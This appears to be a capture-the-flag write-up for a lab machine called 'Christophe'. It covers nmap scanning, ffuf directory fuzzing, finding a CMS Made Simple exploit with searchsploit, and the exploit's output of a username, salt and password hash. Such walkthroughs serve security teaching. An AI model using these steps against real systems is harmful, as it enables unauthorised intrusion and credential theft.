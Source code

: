 # SP: Christophe (V1.0.2)

![image](https://user-images.githubusercontent.com/5285547/125982486-dc67b351-b5df-4e28-9973-9de19ff391fe.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 14:11:d1:8b:12:0b:78:be:04:4f:74:0d:34:a5:fa:07 (RSA)
|   256 47:69:72:f9:b7:76:33:58:6f:eb:8d:1c:da:9e:b5:c6 (ECDSA)
|_  256 79:08:59:b0:df:ec:13:31:9e:d8:24:54:1d:b6:27:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 551E34ACF2930BF083670FA203420993
|_http-generator: CMS Made Simple - Copyright (C) 2004-2018. All rights reserved.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home - Viva La Resistance!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dirs

```
http://christophe.local
```

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt  -u http://christophe.local/tmp/FUZZ -ic -e html,php,sh,aspx,bak,zip,png -mc 200,301,302
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt  -u http://christophe.local/tmp/FUZZ -ic -e html,php,sh,aspx,bak,zip,png

http://christophe.local/doc/htaccess.txt

http://192.168.1.95/modules/
http://192.168.1.95/lib/jquery/
http://192.168.1.95/lib/lang/
```

## Robots.txt
```
http://christophe.local/doc/robots.txt

User-agent: *

Disallow: /assets/
Disallow: /doc/
Disallow: /lib/
Disallow: /modules/
Disallow: /tmp/

Allow: /tmp/cache/
```

## CMS Made Simple
![image](https://user-images.githubusercontent.com/5285547/125982400-47f6763c-774a-4277-b48f-ca0770546ab8.png)

```
searchsploit "cms made simple"
```

![image](https://user-images.githubusercontent.com/5285547/125983683-849c0a35-68be-4a6d-a5d2-66a5aadd3b38.png)


Copy the exploit and run it with python and the variables it needs. 

```
[+] Salt for password found: 932129a6bd8545bd
[+] Username found: christophe
[+] Email found: christophe@christophe.local
[+] Password found: 7908b1494f82ed320b288a0e839bfbc5
```


